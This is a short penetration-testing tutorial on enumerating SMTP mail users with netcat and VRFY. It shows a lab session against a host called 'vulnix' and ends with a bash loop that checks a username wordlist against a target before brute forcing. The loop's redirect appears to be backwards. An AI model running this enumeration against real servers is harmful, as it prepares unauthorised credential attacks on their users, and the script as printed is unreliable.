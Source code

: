 # SMTP Mail User Enumeration
In this module we will learn how to attempt to enumerate users from a target system that is running Dovecot or Exim, or some other form of mail server.
## User List
When using **any** type of brute force attack, it is VERY important to enumerate as much as possible to build the best word list, in our case is a user list. In most cases, at least, add the enumerated hostname as a user. Look for weblogs and anything else that may contain reused UIDs, email addresses, or more.
## Using Netcat
To use Netcat to connect to a mail server simply do:

`root@kali:~# nc (TARGET IP ADDRESS) 25`

Next, we can use some helpful commands that could tell us more about the system. In this case, we wuse `VRFY`

```
wnl8:/pwnt/smtp# nc 192.168.161.129 25
220 vulnix ESMTP Postfix (Ubuntu)
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY dovecot
252 2.0.0 dovecot
VRFY nonexistentuser
550 5.1.1 <nonexistentuser>: Recipient address rejected: User unknown in local recipient table
^C
wnl8:/pwnt/smtp#
```

As you can see, when a valid user is identified by the mail server via the `VRFY` command, it returned `252 2.0.0 (USERNAME)` and when an invalid user was tested via `VRFY` the service returned `550 5.1.1 (USERNAME)`

## SMTP User Enumeration Automation
We can easily script this process by echoing the VRFY command directly into a netcat connection command for each name in a word list against the target server as so,
```
#!/bin/bash
while read user;
 do
  echo VRFY $user | nc (TARGET IP ADDRESS) (TARGET SMTP PORT) | egrep "^252"
 done
> /path/to/usernames.txt
```
